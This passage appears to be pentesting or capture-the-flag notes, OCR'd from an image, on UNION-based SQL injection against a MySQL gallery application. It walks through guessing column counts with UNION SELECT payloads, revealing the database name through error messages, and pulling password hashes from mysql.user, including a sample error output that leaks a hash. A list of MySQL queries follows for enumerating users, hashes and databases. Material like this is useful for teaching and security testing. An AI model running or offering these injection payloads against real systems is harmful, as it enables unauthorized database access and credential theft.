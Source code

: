 * If the query is a select, the true should return all rows of the table and the other empty results.
* Next step is to gess the number of columns, you can do that by sending an union statement, you will get an error until you guess it:

  ```text
  id=1 union all select 1
  id=1 union all select 1,2
  id=1 union all select 1,2,3
  ...
  ```

* You can get the name of the database by sending:

  ```text
  ?id=1 union all select 1,2,3,4,5 from XXX
  Table 'gallery.XXX' doesn't existCould not select category
  ```

* You can use a comment \*\#\* to finish the query, in case there is a group by after the context of the injection. You can select the users and passwords form the database with:

  ```text
  id=1 union all (select 1,2,3,4,5,6 from mysql.user)#
  ```

* Leak the password:

  ```text
  1 union (select password,2,3,4,5,6 from mysql.user)#
  ```

* Should produce:

  ```text
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '*47FB3B1E573D80F44CD198DC65DE7764795F948E) order by dateuploaded desc limit 1' at line 1
  ```

* Find current user

  ```text
  SELECT user();
  SELECT system_user();
  ```

* List all Users

  ```text
  SELECT user FROM mysql.user;
  ```

* List password hashes

  ```text
  SELECT host, user, password FROM mysql.user;
  ```

* List databases

  ```text
  SELECT schema_name FROM information_schema.schemata;
  SELECT distinct(db) FROM mysql.db
  ```
